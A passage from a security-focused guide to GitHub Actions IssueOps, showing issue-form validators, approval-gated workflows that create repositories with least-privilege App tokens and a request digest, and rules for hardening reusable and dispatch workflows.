      value: |
        Do not include secrets or personal data. Values are validated automatically,
        and a platform team member approves every request.
  - type: input
    id: repository_name
    attributes:
      label: Repository name
      description: 3 to 64 characters. Lowercase letters, digits, and hyphens. Starts and ends with a letter or digit.
      placeholder: payments-api
    validations:
      required: true
  - type: dropdown
    id: visibility
    attributes:
      label: Visibility
      options:
        - private
        - internal
    validations:
      required: true
  - type: input
    id: owning_team
    attributes:
      label: Owning team slug
      description: You must be an active member of this team.
      placeholder: payments-engineering
    validations:
      required: true
  - type: dropdown
    id: team_role
    attributes:
      label: Team role
      options:
        - push
        - maintain
    validations:
      required: true
  - type: dropdown
    id: data_classification
    attributes:
      label: Data classification
      options:
        - general
        - confidential
        - restricted
    validations:
      required: true
  - type: textarea
    id: justification
    attributes:
      label: Business justification
      description: Read by reviewers only. The automation never executes or reposts this text.
    validations:
      required: true
```

### 11.3 Custom validators

```yaml
# .github/validator/config.yml
validators:
  - field: repository_name
    script: repository-name.js
  - field: owning_team
    script: owning-team.js
```

```js
// .github/validator/repository-name.js
import { Octokit } from '@octokit/rest'

const NAME_PATTERN = /^[a-z0-9][a-z0-9-]{1,62}[a-z0-9]$/
const RESERVED = new Set(['admin', 'security', 'github', 'issueops'])

export default async (field) => {
  if (typeof field !== 'string' || !NAME_PATTERN.test(field) || RESERVED.has(field)) {
    return 'Repository name does not meet the naming standard.'
  }

  const github = new Octokit({ auth: process.env.VALIDATOR_TOKEN })
  try {
    await github.rest.repos.get({ owner: process.env.ORGANIZATION, repo: field })
    return 'A repository with this name already exists.'
  } catch (error) {
    if (error.status === 404) return 'success'
    throw error
  }
}
```

```js
// .github/validator/owning-team.js
import { Octokit } from '@octokit/rest'

const SLUG_PATTERN = /^[a-z0-9][a-z0-9-]{0,99}$/

export default async (field) => {
  if (typeof field !== 'string' || !SLUG_PATTERN.test(field)) {
    return 'Team slug is not valid.'
  }

  const github = new Octokit({ auth: process.env.VALIDATOR_TOKEN })
  try {
    const { data } = await github.rest.teams.getMembershipForUserInOrg({
      org: process.env.ORGANIZATION,
      team_slug: field,
      username: process.env.REQUESTER
    })
    return data.state === 'active'
      ? 'success'
      : 'You must be an active member of the owning team.'
  } catch (error) {
    if (error.status === 404) return 'The team does not exist or you are not a member of it.'
    throw error
  }
}
```

The error messages are fixed strings. The validator token comes from `VALIDATOR_TOKEN`, a read-only token, so custom scripts never see the write credential. The existence check in `repository-name.js` only sees repositories the reader App can see; the apply job still fails if creation returns "name already exists".

### 11.4 Digest helper

```js
// .github/issueops/digest.cjs
const crypto = require('node:crypto')

const canonical = (value) =>
  Array.isArray(value)
    ? value.map(canonical)
    : value && typeof value === 'object'
      ? Object.fromEntries(Object.keys(value).sort().map((key) => [key, canonical(value[key])]))
      : value

module.exports = (parsed) =>
  crypto.createHash('sha256').update(JSON.stringify(canonical(parsed))).digest('hex')
```

Sorting keys at every level makes the digest independent of key order. Do not use `JSON.stringify(value, keysArray)` for this: a key array filters nested objects too and silently drops fields.

### 11.5 Validation workflow

```yaml
# .github/workflows/issueops-validate.yml
name: IssueOps - validate request

on:
  issues:
    types: [opened, edited, reopened]

permissions: {}

jobs:
  validate:
    if: contains(github.event.issue.labels.*.name, 'issueops:new-repository')
    runs-on: ubuntu-latest
    timeout-minutes: 10
    concurrency:
      group: issueops-validate-${{ github.event.issue.number }}
      cancel-in-progress: true
    permissions:
      contents: read
      issues: write
    steps:
      - name: Check out default branch
        uses: actions/checkout@<SHA> # v6
        with:
          persist-credentials: false

      - name: Set up Node.js
        uses: actions/setup-node@<SHA> # pin the reviewed release
        with:
          node-version: 24

      - name: Install validator dependencies
        run: npm ci --ignore-scripts

      - name: Create read-only token
        id: reader
        uses: actions/create-github-app-token@<SHA> # v3
        with:
          client-id: ${{ vars.ISSUEOPS_READER_CLIENT_ID }}
          private-key: ${{ secrets.ISSUEOPS_READER_PRIVATE_KEY }}
          owner: ${{ github.repository_owner }}
          permission-members: read
          permission-metadata: read

      - name: Parse issue body
        id: parse
        uses: issue-ops/parser@<SHA> # v5
        with:
          body: ${{ github.event.issue.body }}
          issue-form-template: new-repository.yml
          workspace: ${{ github.workspace }}

      - name: Validate request
        id: validate
        uses: issue-ops/validator@<SHA> # v4
        env:
          ORGANIZATION: ${{ github.repository_owner }}
          REQUESTER: ${{ github.event.issue.user.login }}
          VALIDATOR_TOKEN: ${{ steps.reader.outputs.token }}
        with:
          add-comment: true
          github-token: ${{ github.token }}
          issue-form-template: new-repository.yml
          parsed-issue-body: ${{ steps.parse.outputs.json }}
          workspace: ${{ github.workspace }}
```

* `body: ${{ github.event.issue.body }}` is safe here because it is an action input, not script source.
* The validator comments with the workflow's own `GITHUB_TOKEN`; custom validators use the reader token from the environment.
* No step writes request data to the log, `$GITHUB_ENV`, or a shell command.

### 11.6 Submit and apply workflow

```yaml
# .github/workflows/issueops-new-repository.yml
name: IssueOps - new repository

on:
  issue_comment:
    types: [created]

permissions: {}

jobs:
  submit:
    name: Re-validate and submit for approval
    if: >-
      !github.event.issue.pull_request &&
      github.event.issue.state == 'open' &&
      contains(github.event.issue.labels.*.name, 'issueops:new-repository') &&
      startsWith(github.event.comment.body, '.submit') &&
      github.event.comment.user.login == github.event.issue.user.login &&
      github.event.comment.user.type == 'User'
    runs-on: ubuntu-latest
    timeout-minutes: 10
    concurrency:
      group: issueops-submit-${{ github.event.issue.number }}
      cancel-in-progress: true
    permissions:
      contents: read
      issues: write
    outputs:
      digest: ${{ steps.digest.outputs.sha256 }}
    steps:
      - name: Require the exact command
        uses: actions/github-script@<SHA> # v8
        env:
          COMMENT: ${{ github.event.comment.body }}
        with:
          script: |
            if (process.env.COMMENT.trim() !== '.submit') throw new Error('Unrecognized command.')

      - uses: actions/checkout@<SHA> # v6
        with:
          persist-credentials: false
      - uses: actions/setup-node@<SHA> # pin the reviewed release
        with:
          node-version: 24
      - run: npm ci --ignore-scripts

      - name: Create read-only token
        id: reader
        uses: actions/create-github-app-token@<SHA> # v3
        with:
          client-id: ${{ vars.ISSUEOPS_READER_CLIENT_ID }}
          private-key: ${{ secrets.ISSUEOPS_READER_PRIVATE_KEY }}
          owner: ${{ github.repository_owner }}
          permission-members: read
          permission-metadata: read

      - name: Parse issue body
        id: parse
        uses: issue-ops/parser@<SHA> # v5
        with:
          body: ${{ github.event.issue.body }}
          issue-form-template: new-repository.yml
          workspace: ${{ github.workspace }}

      - name: Validate request
        id: validate
        uses: issue-ops/validator@<SHA> # v4
        env:
          ORGANIZATION: ${{ github.repository_owner }}
          REQUESTER: ${{ github.event.issue.user.login }}
          VALIDATOR_TOKEN: ${{ steps.reader.outputs.token }}
        with:
          add-comment: false
          github-token: ${{ github.token }}
          issue-form-template: new-repository.yml
          parsed-issue-body: ${{ steps.parse.outputs.json }}
          workspace: ${{ github.workspace }}

      - name: Stop if validation failed
        if: steps.validate.outputs.result != 'success'
        run: |
          echo "::error::Validation failed. Fix the issue body and comment .submit again."
          exit 1

      - name: Compute request digest
        id: digest
        uses: actions/github-script@<SHA> # v8
        env:
          PARSED: ${{ steps.parse.outputs.json }}
        with:
          script: |
            const digest = require('./.github/issueops/digest.cjs')
            core.setOutput('sha256', digest(JSON.parse(process.env.PARSED)))

      - name: Post review summary
        uses: actions/github-script@<SHA> # v8
        env:
          PARSED: ${{ steps.parse.outputs.json }}
          DIGEST: ${{ steps.digest.outputs.sha256 }}
        with:
          script: |
            const request = JSON.parse(process.env.PARSED)
            const runUrl = `${context.serverUrl}/${context.repo.owner}/${context.repo.repo}/actions/runs/${context.runId}`
            const body = [
              'Request submitted. A platform team member reviews it in the pending workflow run.',
              '',
              '| Field | Value |',
              '|---|---|',
              `| Repository | \`${request.repository_name}\` |`,
              `| Visibility | \`${request.visibility?.[0]}\` |`,
              `| Owning team | \`${request.owning_team}\` |`,
              `| Team role | \`${request.team_role?.[0]}\` |`,
              `| Data classification | \`${request.data_classification?.[0]}\` |`,
              '',
              `Request digest: \`${process.env.DIGEST}\``,
              '',
              `Reviewers: approve or reject in [the workflow run](${runUrl}). Editing the issue now cancels this request.`
            ].join('\n')
            await github.rest.issues.createComment({ ...context.repo, issue_number: context.issue.number, body })
            // The job summary is shown on the run page where reviewers approve.
            await core.summary.addRaw(body).write()

  apply:
    name: Create repository
    needs: submit
    runs-on: ubuntu-latest
    timeout-minutes: 15
    environment: issueops-apply
    concurrency:
      group: issueops-apply-${{ github.event.issue.number }}
      cancel-in-progress: false
    permissions:
      actions: read
      contents: read
      issues: write
    steps:
      - uses: actions/checkout@<SHA> # v6
        with:
          persist-credentials: false
      - uses: actions/setup-node@<SHA> # pin the reviewed release
        with:
          node-version: 24
      - run: npm ci --ignore-scripts

      - name: Fetch the current issue
        id: current
        uses: actions/github-script@<SHA> # v8
        with:
          script: |
            const { data } = await github.rest.issues.get({ ...context.repo, issue_number: context.issue.number })
            const labels = data.labels.map((label) => (typeof label === 'string' ? label : label.name))
            if (data.state !== 'open') throw new Error('The request is no longer open.')
            if (!labels.includes('issueops:new-repository')) throw new Error('The request label was removed.')
            core.setOutput('body', data.body ?? '')

      - name: Create read-only token
        id: reader
        uses: actions/create-github-app-token@<SHA> # v3
        with:
          client-id: ${{ vars.ISSUEOPS_READER_CLIENT_ID }}
          private-key: ${{ secrets.ISSUEOPS_READER_PRIVATE_KEY }}
          owner: ${{ github.repository_owner }}
          permission-members: read
          permission-metadata: read

      - name: Parse current issue body
        id: parse
        uses: issue-ops/parser@<SHA> # v5
        with:
          body: ${{ steps.current.outputs.body }}
          issue-form-template: new-repository.yml
          workspace: ${{ github.workspace }}

      - name: Re-validate current request
        id: validate
        uses: issue-ops/validator@<SHA> # v4
        env:
          ORGANIZATION: ${{ github.repository_owner }}
          REQUESTER: ${{ github.event.issue.user.login }}
          VALIDATOR_TOKEN: ${{ steps.reader.outputs.token }}
        with:
          add-comment: false
          github-token: ${{ github.token }}
          issue-form-template: new-repository.yml
          parsed-issue-body: ${{ steps.parse.outputs.json }}
          workspace: ${{ github.workspace }}

      - name: Confirm the request matches what was approved
        uses: actions/github-script@<SHA> # v8
        env:
          PARSED: ${{ steps.parse.outputs.json }}
          RESULT: ${{ steps.validate.outputs.result }}
          APPROVED_DIGEST: ${{ needs.submit.outputs.digest }}
        with:
          script: |
            const digest = require('./.github/issueops/digest.cjs')
            if (process.env.RESULT !== 'success') {
              throw new Error('The request no longer passes validation.')
            }
            if (digest(JSON.parse(process.env.PARSED)) !== process.env.APPROVED_DIGEST) {
              throw new Error('The request changed after it was submitted. Comment .submit again.')
            }

      - name: Create write token
        id: writer
        uses: actions/create-github-app-token@<SHA> # v3
        with:
          client-id: ${{ vars.ISSUEOPS_WRITER_CLIENT_ID }}
          private-key: ${{ secrets.ISSUEOPS_WRITER_PRIVATE_KEY }}
          owner: ${{ github.repository_owner }}
          permission-administration: write
          permission-members: read
          permission-repository-custom-properties: write

      - name: Create repository and grant team access
        id: create
        uses: actions/github-script@<SHA> # v8
        env:
          PARSED: ${{ steps.parse.outputs.json }}
        with:
          github-token: ${{ steps.writer.outputs.token }}
          script: |
            const request = JSON.parse(process.env.PARSED)
            const org = context.repo.owner
            const name = request.repository_name
            const visibility = request.visibility?.[0]
            const role = request.team_role?.[0]
            const classification = request.data_classification?.[0]

            if (!/^[a-z0-9][a-z0-9-]{1,62}[a-z0-9]$/.test(name)) throw new Error('Invalid repository name')
            if (!['private', 'internal'].includes(visibility)) throw new Error('Visibility not allowed')
            if (!['push', 'maintain'].includes(role)) throw new Error('Team role not allowed')
            if (!['general', 'confidential', 'restricted'].includes(classification)) throw new Error('Classification not allowed')

            await github.rest.repos.createInOrg({
              org,
              name,
              visibility,
              auto_init: true,
              custom_properties: { data_classification: classification }
            })
            core.setOutput('url', `${context.serverUrl}/${org}/${name}`)
            core.setOutput('created', 'true')

            await github.rest.teams.addOrUpdateRepoPermissionsInOrg({
              org,
              team_slug: request.owning_team,
              owner: org,
              repo: name,
              permission: role
            })

      - name: Report and close
        if: always()
        uses: actions/github-script@<SHA> # v8
        env:
          OUTCOME: ${{ steps.create.outcome }}
          CREATED: ${{ steps.create.outputs.created }}
          REPO_URL: ${{ steps.create.outputs.url }}
          APPROVED_DIGEST: ${{ needs.submit.outputs.digest }}
        with:
          script: |
            const issue = { ...context.repo, issue_number: context.issue.number }
            const runUrl = `${context.serverUrl}/${context.repo.owner}/${context.repo.repo}/actions/runs/${context.runId}`
            const { data: reviews } = await github.rest.actions.getReviewsForRun({ ...context.repo, run_id: context.runId })
            const approvers = reviews.filter((r) => r.state === 'approved').map((r) => `\`${r.user.login}\``).join(', ') || 'unknown'

            if (process.env.OUTCOME === 'success') {
              await github.rest.issues.createComment({ ...issue, body: `Created ${process.env.REPO_URL}. Approved by ${approvers} for request digest \`${process.env.APPROVED_DIGEST}\`. [Run log](${runUrl})` })
              await github.rest.issues.update({ ...issue, state: 'closed', state_reason: 'completed' })
            } else if (process.env.CREATED === 'true') {
              await github.rest.issues.createComment({ ...issue, body: `Partial result: ${process.env.REPO_URL} was created, but team access was not granted. A platform team member must complete or remove it manually. Do not resubmit. [Run log](${runUrl})` })
            } else {
              await github.rest.issues.createComment({ ...issue, body: `The request was not completed and nothing was created. A platform team member will review [the run](${runUrl}).` })
            }
```

How the controls map to the code:

| Control                                  | Where                                                                                        |
|------------------------------------------|----------------------------------------------------------------------------------------------|
| No write credential during validation    | `validate` and `submit` jobs only create the reader token                                     |
| Approval before the write key is readable| `environment: issueops-apply` with required reviewers and prevent self-review                 |
| Requester-only submit, no PR comments    | `submit` job `if:` guard plus the exact-command step                                         |
| Reviewers see what they approve          | Review summary written to the issue and to the submit job summary on the run page            |
| Approver recorded outside run logs       | Final comment lists approvers from the workflow run review history (`actions: read`)          |
| Partial failure is visible               | `created` output distinguishes "nothing created" from "created without team access"          |
| TOCTOU protection                        | Digest computed in `submit`, recomputed from the API-fetched body in `apply`                  |
| No expression injection                  | Every `run:` and `script:` reads data from `env:` or action inputs; no request data in `${{ }}` inside scripts |
| Least-privilege token                    | `permission-*` inputs on each `create-github-app-token` step                                  |
| Defense in depth                         | Invariants re-checked before the API calls                                                    |
| Guardrails from creation                 | `custom_properties` set in the create call so property-targeted rulesets apply immediately   |

> [!NOTE]
> The `permission-*` input names are generated from the GitHub App permission names; the full list is in the action's [`action.yml`](https://github.com/actions/create-github-app-token/blob/main/action.yml). `client-id` is the current input; `app-id` is deprecated but still accepted.
>
> The `internal` visibility value for `createInOrg` is listed in the [GitHub Enterprise Cloud REST reference](https://docs.github.com/en/enterprise-cloud@latest/rest/repos/repos#create-an-organization-repository); it applies only to organizations owned by an enterprise account.

---

## 12. Secure reusable workflows and their inputs

Platform teams often move the privileged logic (create a repository, grant access, set properties) into a reusable workflow in a central repository, and call it from one or more IssueOps repositories with `workflow_call` inputs. This is a good way to review and version the privileged code once. It also turns the reusable workflow into a shared API: every repository allowed to call it can pass any value in `with:`. Design it the way you would design an internal admin API that accepts requests from other teams.

### 12.1 How reusable workflows change the trust model

The following behaviors come from the [reusable workflows reference](https://docs.github.com/en/actions/reference/workflows-and-actions/reusable-workflows) and [Reuse workflows](https://docs.github.com/en/actions/how-tos/reuse-automations/reuse-workflows). Each one has a security consequence.

| Behavior                                                                                                                                  | Consequence                                                                                                                                                                                  |
|-------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| The `github` context in the called workflow is always the caller's (`github.repository`, `github.event`, `github.actor`, `github.workflow_ref`) | The called workflow can read the caller's raw event, including the issue body. Do not: accept explicit, typed inputs instead. Use `github.repository` and `github.workflow_ref` to identify the caller |
| `actions/checkout` defaults to `github.repository`, which is the caller                                                                   | Scripts, validator configs, or allowlists loaded from the workspace come from the caller's repository, and the caller controls them. Keep security logic inside the reusable workflow file or in SHA-pinned actions. On GitHub Enterprise Cloud, a reusable workflow can check out its own source with `repository: ${{ job.workflow_repository }}` and `ref: ${{ job.workflow_sha }}`; these `job.workflow_*` properties are not available on GitHub Enterprise Server |
| `workflow_call` inputs support only `boolean`, `number`, and `string`                                                                     | There is no `choice` type. Every enumeration and pattern must be enforced in code inside the reusable workflow                                                                              |
| Inputs are not secrets                                                                                                                    | Input values are not masked. Never pass tokens or keys as inputs                                                                                                                            |
| Secrets are passed explicitly or with `secrets: inherit` (same organization or enterprise)                                                | `inherit` passes every secret the caller can see, including any write key stored at repository or organization level                                                                        |
| Environment secrets cannot be passed through `workflow_call`; if a job in the reusable workflow sets `environment`, that environment's secrets are used | The approval environment and its secrets live in the caller's repository. The reusable workflow can require an environment by name, and the caller's environment protection rules apply        |
| The run executes in the caller's context; repository and organization secrets reach the called workflow only when passed explicitly or with `inherit` | Treat configuration variables (`vars`) read inside the reusable workflow as values the caller's repository, organization, or environment can influence. Do not read allowlists or security switches from `vars` inside the reusable workflow |
| `GITHUB_TOKEN` permissions can only be kept or reduced by the called workflow; if the calling job sets no `permissions`, the called workflow gets the default | The caller must set explicit, minimal permissions on the calling job                                                                                                                        |
| The `{ref}` in `uses: owner/repo/.github/workflows/file.yml@{ref}` can be a SHA, tag, or branch                                           | Only a full SHA is immutable. A tag or branch lets whoever can push to the central repository change what every caller runs                                                                 |
| Private repositories must explicitly allow access to their reusable workflows                                                             | The access setting is a level (for example, repositories in the same organization or enterprise), not a list of repositories. It narrows who can call, but the reusable workflow still needs its own caller allowlist |

### 12.2 Rules for the reusable workflow (callee)

1. Declare every input with `type` and `required`. Prefer several narrow inputs over one free-form JSON "payload". If you must accept JSON, parse it with error handling, validate it against a schema, reject unknown keys, and cap its size.
2. Validate every input before it is used, in a job that has no secrets and no environment, and fail closed. Reviewers are then never asked to approve an invalid call.
3. Re-assert the security-critical invariants (visibility, role, name pattern) in the privileged job, right before the API calls. Jobs do not share state, so a later edit that skips the validation job must still fail safe.
4. Pass inputs to scripts through `env:` only. `${{ inputs.x }}` inside `run:` or `script:` is exactly as dangerous as `${{ github.event.issue.title }}`.
5. Never let an input choose a security-relevant setting. Hard-code these in the reusable workflow file:
   * `environment` (the approval gate)
   * `runs-on` (a caller could otherwise pick a self-hosted runner)
   * the App token's `owner`, `repositories`, and `permission-*` inputs
   * the `repository` and `ref` of any `actions/checkout`
   * the organization passed to API calls
   * any "skip approval", "force", or "bypass" behavior. Do not offer those inputs at all
6. Restrict callers inside the workflow. Compare `github.workflow_ref` (caller workflow file and ref) against an exact allowlist written in the reusable workflow file itself, not in `vars`. A check on `github.repository` alone admits every workflow and branch in that repository, so use it only as an additional check.
7. Do not depend on caller secrets. Keep the write key as an environment secret on the approval environment in the one authorized caller repository, and reference the environment from the privileged job. Declare any other secret explicitly under `on.workflow_call.secrets` with `required: true`.
8. Keep inputs minimal. The reusable workflow in the example below does not take an issue number and has no `issues` permission. Commenting and closing stay in the caller, so the privileged workflow cannot be used as a confused deputy against other issues.
9. Treat your own outputs as data. Outputs derived from inputs are untrusted for the caller, and outputs must never contain tokens.
10. Declare `permissions: {}` at workflow level and minimal permissions per job, as in any other workflow.
11. If the privileged job authenticates to a cloud provider or vault through OIDC, restrict the trust policy with the `job_workflow_ref` claim so only this reusable workflow, at an approved ref, can obtain credentials ([WAF: Scaling with reusable workflows](https://github.com/github/github-well-architected/blob/a30275b/content/library/application-security/recommendations/actions-security.md)). On GitHub Enterprise Server, confirm that your version and cloud provider support this claim.

### 12.3 Rules for the caller

* Reference the reusable workflow by full SHA: `uses: contoso/platform-workflows/.github/workflows/create-repository.yml@<SHA> # v1.4.0`. The SHA-pinning policy covers reusable workflows as well as actions.
* Set `permissions:` explicitly on the calling job. Without it, the called workflow receives the default `GITHUB_TOKEN` permissions.
* Pass no secrets if you can. Never use `secrets: inherit` for a privileged reusable workflow; name each secret instead.
* Pass only values that the caller has already parsed and validated, from job outputs. Never pass `github.event.issue.body`, a comment body, or parser output in bulk.
* Pass values with the declared type. A boolean input receives `true`, not `'true'`.
* Values in `with:` are safe from script injection in the caller, because they are inputs, not script source. The reusable workflow must still handle them as untrusted.
* Cap cache access for the called workflow with `cache-mode` on the calling job where your instance supports it, to reduce cache-poisoning paths.
* Do not reuse the same `concurrency.group` value in the caller and the called workflow with `cancel-in-progress: true`. The docs warn this cancels the running caller.

### 12.4 `workflow_dispatch` inputs

Platform teams often add a `workflow_dispatch` trigger so an administrator can run the same workflow by hand or through the API. Anyone with write access to the repository can dispatch a workflow, so these inputs need the same treatment.

```yaml
on:
  workflow_dispatch:
    inputs:
      repository_name:
        type: string
        required: true
      visibility:
        type: choice
        options: [private, internal]
        default: private
      dry_run:
        type: boolean
        default: true
```

* Use `choice`, `boolean`, and `number` wherever possible, and still validate in the workflow. The UI restricts what a person can pick; do not rely on it as the only control for API-triggered runs.
* Read values from the `inputs` context. It keeps booleans as booleans, while `github.event.inputs` holds strings, so `github.event.inputs.dry_run` is the non-empty string `'false'`, which is truthy in a condition.
* Default to the safe value (`dry_run: true`, `private`).
* Do not use an `environment`-type input to select the approval environment. Hard-code the environment on the privileged job.
* Keep the privileged job behind the same approval environment as the IssueOps path, so a dispatch cannot skip review.

### 12.5 Input validation pitfalls

| Pitfall                                   | Safe practice                                                                                                                                                                 |
|-------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Unanchored or partially anchored patterns | Anchor both ends. In JavaScript, `/^[a-z0-9-]+$/` without the `m` flag matches the whole string. In Python, use `re.fullmatch`, because `$` also matches before a trailing newline. In Bash, `[[ "$v" =~ ^[a-z0-9-]+$ ]]` with the pattern unquoted |
| Unbounded length                          | Put the length limit in the pattern (`{1,62}`) or check it first. Reject empty strings                                                                                          |
| "Sanitizing" instead of rejecting         | Reject values that do not match. Stripping characters silently changes what was requested and what reviewers saw                                                                |
| Unicode look-alikes                       | Restrict identifiers to explicit ASCII classes such as `[a-z0-9-]`. Avoid `\w` and case-insensitive matching for names                                                          |
| Type confusion                            | Check `typeof` before matching. Compare booleans with booleans. For numbers, check `Number.isInteger` and a range                                                               |
| Option injection                          | Values that must not start with `-` should fail the pattern. When a CLI is unavoidable, pass `--` before positional arguments                                                  |
| Reflected values in errors                | Name the invalid input, not its value                                                                                                                                         |
| Untrusted `fromJSON(inputs.x)` for matrices | Validate the array length and every element before using it to fan out jobs                                                                                                  |

### 12.6 Example: IssueOps caller and a reusable create-repository workflow

In this variant, the IssueOps repository keeps the `validate` and `submit` jobs from [11.6](#116-submit-and-apply-workflow), and the privileged work moves to `contoso/platform-workflows`. The approved values are frozen as inputs when the caller starts the reusable workflow, so editing the issue afterwards does not change what runs, and there is no need to re-fetch the issue. The digest now covers the normalized fields, so the reusable workflow can recompute it from its inputs.

Add a normalization step to the `submit` job and expose its outputs. In the "Post review summary" step from 11.6, set `DIGEST: ${{ steps.normalized.outputs.fields_digest }}` so reviewers see the same digest the reusable workflow checks:

```yaml
    outputs:
      repository_name: ${{ steps.normalized.outputs.repository_name }}
      visibility: ${{ steps.normalized.outputs.visibility }}
      owning_team: ${{ steps.normalized.outputs.owning_team }}
      team_role: ${{ steps.normalized.outputs.team_role }}
      data_classification: ${{ steps.normalized.outputs.data_classification }}
      fields_digest: ${{ steps.normalized.outputs.fields_digest }}
    steps:
      # ... exact-command check, checkout, parse, validate as in 11.6 ...
      - name: Normalize request
        id: normalized
        uses: actions/github-script@<SHA> # v8
        env:
          PARSED: ${{ steps.parse.outputs.json }}
        with:
          script: |
            const request = JSON.parse(process.env.PARSED)
            // Key order must match the reusable workflow's digest check.
            const fields = {
              data_classification: request.data_classification?.[0] ?? '',
              owning_team: request.owning_team ?? '',
              repository_name: request.repository_name ?? '',
              team_role: request.team_role?.[0] ?? '',
              visibility: request.visibility?.[0] ?? ''
            }
            for (const [key, value] of Object.entries(fields)) core.setOutput(key, value)
            core.setOutput('fields_digest', require('node:crypto').createHash('sha256').update(JSON.stringify(fields)).digest('hex'))
```

Replace the `apply` job with a call, and report from the caller:

```yaml
  apply:
    needs: submit
    concurrency:
      group: issueops-apply-${{ github.event.issue.number }}
      cancel-in-progress: false
    permissions:
      contents: read
    cache-mode: none
    uses: contoso/platform-workflows/.github/workflows/create-repository.yml@<SHA> # v1.4.0
    with:
      repository_name: ${{ needs.submit.outputs.repository_name }}
      visibility: ${{ needs.submit.outputs.visibility }}
      owning_team: ${{ needs.submit.outputs.owning_team }}
      team_role: ${{ needs.submit.outputs.team_role }}
      data_classification: ${{ needs.submit.outputs.data_classification }}
      request_digest: ${{ needs.submit.outputs.fields_digest }}

  report:
    needs: [submit, apply]
    if: always() && needs.submit.result == 'success'
    runs-on: ubuntu-latest
    timeout-minutes: 5
    permissions:
      actions: read
      issues: write
    steps:
      - name: Report and close
        uses: actions/github-script@<SHA> # v8
        env:
          RESULT: ${{ needs.apply.result }}
          CREATED: ${{ needs.apply.outputs.created }}
          REPO_URL: ${{ needs.apply.outputs.repository_url }}
          APPROVED_DIGEST: ${{ needs.submit.outputs.fields_digest }}
        with:
          script: |
            const issue = { ...context.repo, issue_number: context.issue.number }
            const runUrl = `${context.serverUrl}/${context.repo.owner}/${context.repo.repo}/actions/runs/${context.runId}`
            const { data: reviews } = await github.rest.actions.getReviewsForRun({ ...context.repo, run_id: context.runId })
            const approvers = reviews.filter((r) => r.state === 'approved').map((r) => `\`${r.user.login}\``).join(', ') || 'unknown'

            if (process.env.RESULT === 'success') {
              await github.rest.issues.createComment({ ...issue, body: `Created ${process.env.REPO_URL}. Approved by ${approvers} for request digest \`${process.env.APPROVED_DIGEST}\`. [Run log](${runUrl})` })
              await github.rest.issues.update({ ...issue, state: 'closed', state_reason: 'completed' })
            } else if (process.env.CREATED === 'true') {
              await github.rest.issues.createComment({ ...issue, body: `Partial result: ${process.env.REPO_URL} was created, but team access was not granted. A platform team member must complete or remove it manually. Do not resubmit. [Run log](${runUrl})` })
            } else {
              await github.rest.issues.createComment({ ...issue, body: `The request was not completed. A platform team member will review [the run](${runUrl}).` })
            }
```

> [!NOTE]
> The "Partial result" branch depends on the `created` output reaching the caller after the called job fails. Confirm this in the sandbox on your instance. If it does not, have the report job check whether the repository exists before choosing the message.

The reusable workflow in the central repository:

```yaml
# contoso/platform-workflows/.github/workflows/create-repository.yml
name: Create repository (reusable)

on:
  workflow_call:
    inputs:
      repository_name:
        type: string
        required: true
      visibility:
        type: string
        required: true
      owning_team:
        type: string
        required: true
      team_role:
        type: string
        required: true
      data_classification:
        type: string
        required: true
      request_digest:
        type: string
        required: true
    outputs:
      repository_url:
        value: ${{ jobs.create.outputs.url }}
      created:
        value: ${{ jobs.create.outputs.created }}

permissions: {}

jobs:
  validate:
    name: Validate caller and inputs
    runs-on: ubuntu-latest
    timeout-minutes: 5
    permissions: {}
    steps:
      - uses: actions/github-script@<SHA> # v8
        env:
          CALLER_WORKFLOW: ${{ github.workflow_ref }}
          REPOSITORY_NAME: ${{ inputs.repository_name }}
          VISIBILITY: ${{ inputs.visibility }}
          OWNING_TEAM: ${{ inputs.owning_team }}
          TEAM_ROLE: ${{ inputs.team_role }}
          DATA_CLASSIFICATION: ${{ inputs.data_classification }}
          REQUEST_DIGEST: ${{ inputs.request_digest }}
        with:
          script: |
            // Allowlist lives in this file: vars and secrets resolve in the caller's context.
            const ALLOWED_CALLERS = new Set([
              'contoso/issueops/.github/workflows/issueops-new-repository.yml@refs/heads/main'
            ])
            const e = process.env
            if (!ALLOWED_CALLERS.has(e.CALLER_WORKFLOW)) throw new Error('Caller workflow is not allowed.')

            const patterns = {
              REPOSITORY_NAME: /^[a-z0-9][a-z0-9-]{1,62}[a-z0-9]$/,
              OWNING_TEAM: /^[a-z0-9][a-z0-9-]{0,99}$/,
              REQUEST_DIGEST: /^[a-f0-9]{64}$/
            }
            for (const [name, pattern] of Object.entries(patterns)) {
              if (!pattern.test(e[name] ?? '')) throw new Error(`Input ${name} is invalid.`)
            }

            const allowed = {
              VISIBILITY: ['private', 'internal'],
              TEAM_ROLE: ['push', 'maintain'],
              DATA_CLASSIFICATION: ['general', 'confidential', 'restricted']
            }
            for (const [name, values] of Object.entries(allowed)) {
              if (!values.includes(e[name])) throw new Error(`Input ${name} is not allowed.`)
            }

            const fields = {
              data_classification: e.DATA_CLASSIFICATION,
              owning_team: e.OWNING_TEAM,
              repository_name: e.REPOSITORY_NAME,
              team_role: e.TEAM_ROLE,
              visibility: e.VISIBILITY
            }
            const digest = require('node:crypto').createHash('sha256').update(JSON.stringify(fields)).digest('hex')
            if (digest !== e.REQUEST_DIGEST) throw new Error('Inputs do not match the reviewed request digest.')

  create:
    name: Create repository
    needs: validate
    runs-on: ubuntu-latest
    timeout-minutes: 15
    environment: issueops-apply
    concurrency:
      group: create-repository-${{ inputs.repository_name }}
      cancel-in-progress: false
    permissions: {}
    outputs:
      url: ${{ steps.create.outputs.url }}
      created: ${{ steps.create.outputs.created }}
    steps:
      - name: Create write token
        id: writer
        uses: actions/create-github-app-token@<SHA> # v3
        with:
          client-id: ${{ vars.ISSUEOPS_WRITER_CLIENT_ID }}
          private-key: ${{ secrets.ISSUEOPS_WRITER_PRIVATE_KEY }}
          owner: contoso
          permission-administration: write
          permission-members: read
          permission-repository-custom-properties: write

      - name: Create repository and grant team access
        id: create
        uses: actions/github-script@<SHA> # v8
        env:
          REPOSITORY_NAME: ${{ inputs.repository_name }}
          VISIBILITY: ${{ inputs.visibility }}
          OWNING_TEAM: ${{ inputs.owning_team }}
          TEAM_ROLE: ${{ inputs.team_role }}
          DATA_CLASSIFICATION: ${{ inputs.data_classification }}
        with:
          github-token: ${{ steps.writer.outputs.token }}
          script: |
            const org = 'contoso'
            const e = process.env
            if (!/^[a-z0-9][a-z0-9-]{1,62}[a-z0-9]$/.test(e.REPOSITORY_NAME)) throw new Error('Invalid repository name')
